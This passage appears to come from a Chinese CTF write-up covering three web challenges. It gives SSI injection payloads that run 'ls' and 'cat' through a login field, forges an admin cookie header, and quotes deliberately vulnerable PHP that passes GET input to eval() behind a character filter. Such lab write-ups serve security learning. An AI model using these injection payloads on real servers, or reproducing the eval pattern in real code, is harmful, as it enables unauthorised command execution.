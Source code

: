 访问这个页面，可控元素应该就这个POST过来的`username`

>shtml和asp 有一些相似，以shtml命名的文件里，使用了ssi的一些指令，就像asp中的指令，你可以在SHTML文件中写入SSI指令，当客户端访问这些shtml文件时服务器端会把这些SHTML文件进行读取和解释，把SHTML文件中包含的SSI指令解释出来。

指令格式:
`<!--#exec cmd=命令-->`
`<!--#exec cgi=命令-->`

payload:
`username=<!--#exec cmd="ls /var/www/html/"-->&password=2020666`


`username=<!--#exec cmd="cat /var/www/html/flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666`

========================================================
# [BSidesCF 2019]Kookie

ctrl U

没有可用内容，传值也没什么

说是cookie，抓包看没有设置cookie，加一个cookie头试试
`cookie: username=admin`

![在这里插入图片描述](https://img-blog.csdnimg.cn/97db9bcfa2d440628fa768a03c3958b3.png)
擦，直接出flag了

========================================================
# [极客大挑战 2019]RCE ME
>https://blog.csdn.net/qq_43801002/article/details/107760421
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>

```
